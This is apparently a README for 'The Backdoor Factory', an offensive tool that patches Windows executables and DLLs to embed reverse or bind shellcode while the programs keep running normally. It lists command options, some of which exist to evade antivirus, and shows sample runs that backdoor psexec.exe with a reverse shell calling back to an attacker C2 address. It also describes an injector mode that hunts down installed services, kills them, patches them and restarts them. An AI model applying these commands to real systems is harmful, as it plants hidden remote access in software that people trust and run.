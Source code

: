 ##The Backdoor Factory
For security professionals and researchers only.

From DerbyCon: 
    
    Video: http://www.youtube.com/watch?v=jXLb2RNX5xs

    Injection Module Demo: http://www.youtube.com/watch?v=04aJAex2o3U

    Slides: http://www.slideshare.net/midnite_runr/patching-windows-executables-with-the-backdoor-factory

Injects shellcode into win32/64 PE files, to continue normal file execution (if the shellcode supports it), by patching the exe/dll directly.

Some executables have built in protections, as such this will not work on all PE files.  It is advisable that you test target PE files before deploying them to clients or using them in exercises.

Recently tested on all 32/64bit Sysinternal tools and Chrome browser.
---

Usage: ./backdoor.py -h

Usage: backdoor.py [options]

Options:
  -h, --help            show this help message and exit
  
  -f FILE, --file=FILE  File to backdoor
  
  -s SHELL, --shell=SHELL
                        Payloads that are available for use.
  
  -H HOST, --hostip=HOST
                        IP of the C2 for reverse connections
  
  -P PORT, --port=PORT  The port to either connect back to for reverse shells
                        or to listen on for bind shells
  
  -J, --cave_jumping    Select this options if you want to use code cave
                        jumping to further hide your shellcode in the binary.
  
  -a, --add_new_section
                        Mandating that a new section be added to the exe
                        (better success) but less av avoidance
  
  -U SUPPLIED_SHELLCODE, --user_shellcode=SUPPLIED_SHELLCODE
                        User supplied shellcode, make sure that it matches the
                        architecture that you are targeting.
  
  -c, --cave            The cave flag will find code caves that can be used
                        for stashing shellcode. This will print to all the
                        code caves of a specific size.The -l flag can be use
                        with this setting.
  
  -l SHELL_LEN, --shell_length=SHELL_LEN
                        For use with -c to help find code caves of different
                        sizes
  
  -o OUTPUT, --output-file=OUTPUT
                        The backdoor output file
  
  -n NSECTION, --section=NSECTION
                        New section name must be less than seven characters
  
  -d DIR, --directory=DIR
                        This is the location of the files that you want to
                        backdoor. You can make a directory of file backdooring
                        faster by forcing the attaching of a codecave to the
                        exe by using the -a setting.
  
  -w, --change_access   This flag changes the section that houses the codecave
                        to RWE. Sometimes this is necessary. Enabled by
                        default. If disabled, the backdoor may fail.
  
  -i, --injector        This command turns the backdoor factory in a hunt and
                        shellcode inject type of mechinism. Edit the target
                        settings in the injector module.
  
  -u SUFFIX, --suffix=SUFFIX
                        For use with injector, places a suffix on the original
                        file for easy recovery
  
  -D, --delete_original
                        For use with injector module.  This command deletes
                        the original file.  Not for use in production systems.
                        *Author not responsible for stupid uses.*
  
  -O DISK_OFFSET, --disk_offset=DISK_OFFSET
                        Starting point on disk offset, in bytes. Some authors
                        want to obfuscate their on disk offset to avoid
                        reverse engineering, if you find one of those files
                        use this flag, after you find the offset.
  
  -S, --support_check   To determine if the file is supported by BDF prior to
                        backdooring the file. For use by itself or with
                        verbose. This check happens automatically if the
                        backdooring is attempted.
  
  -q, --no_banner       Kills the banner.
  
  -v, --verbose         For debug information output.


---

Features:

-After making a copy of the target file, the file copy will be patched directly.

-Finding all codecaves in an EXE/DLL.

-Injecting modified reverse/bind shells that allow continued execution after connection to the attacker.

-Modifying the PE/COFF header to add an additional section for all win32 executables/dlls, including those with an import table.

-Using the existing shellcode options, the ability to select PORT and HOST as connection options

-The ability to backdoor a directory of executables/dlls

---------------------------------------------

Sample Usage:
---

###Backdoor a exe/dll using an existing code cave:

./backdoor.py -f psexec.exe -H 192.168.0.100 -P 8080 -s reverse_shell_tcp 

[*] In the backdoor module

[*] Checking if binary is supported

[*] Gathering file info

[*] Reading win32 entry instructions

[*] Looking for and setting selected shellcode

[*] Creating win32 resume execution stub

[*] Looking for caves that will fit the minimum shellcode length of 402

[*] All caves lengths:  (402,)

-############################################################

The following caves can be used to inject code and possibly

continue execution.

**Don't like what you see? Use jump, single, or append.**

-############################################################

[*] Cave 1 length as int: 402

[*] Available caves:

1. Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2d2d5 End: 0x2d4d0; Cave Size: 507

2. Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2d4e9 End: 0x2d6d5; Cave Size: 492

3. Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2d6e3 End: 0x2d8d8; Cave Size: 501

4. Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2d8f1 End: 0x2dadd; Cave Size: 492

5. Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2dae7 End: 0x2dce0; Cave Size: 505

6. Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2dcf3 End: 0x2dee5; Cave Size: 498

7. Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2defb End: 0x2e0ea; Cave Size: 495

8. Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2e161 End: 0x2e390; Cave Size: 559

9. Section Name: .rsrc; Section Begin: 0x2f200 End: 0x5bc00; Cave begin: 0x58a39 End: 0x58c68; Cave Size: 559

**************************************************

[!] Enter your selection: 5

Using selection: 5

[*] Changing Section Flags

[*] Patching initial entry instructions

[*] Creating win32 resume execution stub

[*] psexec.exe backdooring complete

File psexec.exe is in the 'backdoored' directory

---

###Backdoor an exe/dll by adding a code section:

./backdoor.py -f psexec.exe -H 192.168.0.100 -P 8080 -s reverse_shell_tcp -a 

Adding a new section to the exe/dll for shellcode injection

psexec.exe backdooring complete

File bd.psexec.exe is in current directory

---
###Backdoor a directory of exes:
./backdoor.py -d test/ -i 192.168.0.100 -p 8080 -s reverse_shell_tcp -a


...output too long for README...

---
###Hunt and backdoor: Injector
The injector module will look for target executables to backdoor on disk.  It will check to see if you have identified the target as a service, check to see if the process is running, kill the process and/or service, inject the executable with the shellcode, save the original file to either file.exe.old or another suffix of choice, and attempt to restart the process or service.  
Edit the python dictionary "list_of_targets" in the 'injector' module for targets of your choosing.

./backdoor.py -i -H 192.168.0.100 -P 8080 -s reverse_shell_tcp -a -u .moocowwow 
